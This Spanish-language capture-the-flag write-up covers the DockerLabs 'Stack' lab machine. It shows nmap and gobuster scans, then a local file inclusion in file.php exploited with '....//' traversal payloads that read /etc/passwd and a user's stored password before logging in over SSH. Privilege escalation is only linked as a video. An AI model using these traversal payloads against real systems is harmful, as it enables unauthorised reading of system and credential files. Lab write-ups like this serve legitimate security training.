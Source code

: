 Maquina **Stack** de [DockerLabs](https://dockerlabs.es)

Autor: [4bytes](https://github.com/4bytess/)

Dificultad: Medio

![Stack](images/stack/img/stack.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Dec 21 06:29:52 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-21 06:29:53 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 85:7f:49:c5:89:f6:ce:d2:b3:92:f1:40:de:e0:56:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKbh8ym3+2VX/os7OkffE47hGnUItmzsxnzZC5nyyZX+f/Yxs4jYIh2kKaaz0JDWEqvH0yMxLWbHT3GNTgB9twY=
|   256 6d:ed:59:b8:d8:cc:50:54:9d:37:65:58:f5:3f:52:e3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDzqQNHKTTYWl1CeWFUVL0KzT9nplldPzKCW/b2mieL4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Web en producci\xC3\xB3n
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 21 06:30:01 2024 -- 1 IP address (1 host up) scanned in 8.97 seconds
```

Como vemos, solo tenemos dos puertos abiertos en este debian:

•`Puerto 22: OpenSSH 9.2p1`

•`Puerto 80: Apache httpd 2.4.62`

Voy al puerto 80 desde el navegador y no encuentro nada, por lo que paso directamente a hacer `fuzzing` con `gobuster`:

```css
gobuster dir -u "http://172.17.0.2" -w /directory-list-2.3-medium.txt -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 417]
/file.php             (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/note.txt             (Status: 200) [Size: 110]
Progress: 377995 / 882184 (42.85%)
===============================================================
Finished
===============================================================
```

Como vemos tenemos una nota y un file.php, si leemos la nota dice lo siguiente:

```css
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

viendo lo que dice, es una probable pista de que "file.php" tiene un LFI, ya que según gobuster tiene un tamaño de 0 (no se imprime nada en la web), por lo que probando un parametro tipico (file) veo que realmente si se estan incluyendo archivos:

```css
http://172.17.0.2/file.php?file=index.html
```

# Intrusión

Viendo esto, pruebo un path traversal pero no funciona, y luego de probar varios, este si me funciona correctamente:

```css
http://172.17.0.2/file.php?file=....//....//....//....//....//....//....//....//etc/./passwd
```

Luego, si revisamos el codigo fuente de la pagina principal, veremos el siguiente mensaje:

```css
        <!--Mensaje para Bob: hemos guardado tu contraseña en /usr/share/bob/password.txt-->
```

sabiendo esto, debemos entrar a:

```css
http://172.17.0.2/file.php?file=....//....//....//....//....//....//....//....//usr/share/bob/password.txt
```

Una vez hecho, ya tendremos la contraseña por lo que entramos por ssh.

# Escalada De Privilegios

### Bob

## Buffer Overflow:

[Video yt](https://youtu.be/U9zhIW69cyk)

Gracias por leer y ver ;)
